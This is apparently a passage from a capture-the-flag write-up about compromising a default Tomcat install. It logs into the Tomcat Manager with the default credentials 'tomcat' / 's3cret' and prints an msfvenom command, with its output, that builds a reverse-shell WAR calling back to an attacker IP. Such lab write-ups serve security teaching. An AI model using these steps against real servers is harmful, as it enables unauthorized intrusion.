 ```

```

### Website

#### Site

The site shows a default install of Tomcat:

![1530409432385](https://0xdfimages.gitlab.io/img/1530409432385.png)

#### Login

The default creds of “tomcat” / “s3cret” work to get access to the Tomcat Manager Application.

![1530409477005](https://0xdfimages.gitlab.io/img/1530409477005.png)

## Exploiting Tomcat

To get a shell, I’ll use the “WAR file to deploy” section of the manager application:

![1530409521172](https://0xdfimages.gitlab.io/img/1530409521172.png)

### Web Application Resource Files

A Web Application Resource (WAR) file is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

Tomcat Manager makes it easy to deploy war files with a couple clicks, and since these can contain Java code, it’s a great target for gaining execution.

### Create war File

I’ll use `msfvenon` to create a windows reverse shell that can be caught with `nc`:

```

root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > rev_shell-9002.war
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52311 bytes

```

I’ll also need to know the name of the jsp page to activate it with curl. I’ll use `jar` to list the contents of the war.
